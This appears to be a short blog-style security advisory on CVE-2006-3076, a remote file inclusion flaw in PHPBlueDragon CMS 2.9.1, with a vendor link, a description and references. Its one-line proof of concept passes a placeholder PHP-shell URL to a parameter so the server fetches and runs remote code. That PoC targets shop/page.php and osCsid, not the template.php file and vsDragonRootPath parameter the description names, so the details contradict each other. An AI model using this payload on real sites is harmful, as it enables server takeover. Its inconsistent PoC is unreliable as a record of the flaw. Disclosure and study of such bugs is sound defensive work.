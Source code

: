 ```yaml
---
layout: post
title:  "CVE-2006-3076 – PHPBlueDragon CMS 2.9.1 - Remote File Inclusion"
date:   2006-06-14 00:00:00
categories: security cve
permalink: post/CVE-2006-3076-phpbluedragon-cms-remote-file-inclusion/
---
```


### Vendor

[http://phpbluedragon.net/][phpbluedragoncms]

[phpbluedragoncms]:	http://phpbluedragon.net/	"PHPBlueDragonCMS"

> PHP Blue Dragon CMS is a web-based content management system implemented in PHP.

### Description

PHP remote file inclusion vulnerability in `software_upload/public_includes/pub_templates/vphptree/template.php` in `PHPBlueDragon CMS 2.9.1` allows remote attackers to execute arbitrary PHP code via a URL in the vsDragonRootPath parameter.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/shop/page.php?osCsid=
**~**

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076][mitre]
* [http://www.securityfocus.com/bid/18440][securityfocus]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076 "CVE-2006-3076"
[securityfocus]:	http://www.securityfocus.com/bid/18440						"SecurityFocus-18440"
